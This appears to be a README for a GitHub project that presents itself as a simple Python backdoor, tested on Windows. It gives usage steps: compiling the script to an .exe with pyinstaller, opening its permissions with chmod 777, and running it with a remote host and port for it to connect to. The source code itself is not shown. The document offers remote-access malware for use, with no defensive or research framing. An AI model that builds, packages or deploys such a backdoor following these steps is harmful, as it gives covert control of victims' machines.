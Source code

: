 # biil_harperInUpdate
* A simple backdoor write in pure Python, and the usually libs.

* It was tested for Windows OS, and it's was sucessuful! 

* In a distro linux, just use pyinstaller or cfreeze to compile the code in a .exe format. 

* Give the right permissions to the script in the terminal. 

* Something like this will be the correct to do: 

# chmod 777 main.py 

# python main <remote_host> <port_to_connect> 

* try after to test in some server... 

# python main.py 127.0.0.1 21

# setting up, in this case, the server host, and the port that will accept the connections. 



 
